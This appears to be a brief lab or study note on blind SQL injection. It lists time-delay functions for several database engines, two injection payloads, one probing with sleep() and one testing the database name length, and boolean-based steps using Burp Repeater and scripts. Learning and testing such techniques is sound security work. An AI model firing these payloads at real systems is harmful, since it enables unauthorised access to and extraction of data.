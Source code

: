 ## SQL Injection Blind Easy

1. Time delay cheet sheet

Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
MariaDB	SELECT SLEEP(10)
MariaDB is a fork from MySQL, Basic SQL syntax is the same

`1' and sleep(5)#`


# Boolean

0. Try 1, 2, 3 and 11

1. Get DB name len
`1' and length(database())=0#`

3. Burp Repeater

4. Python Script

5. Selenium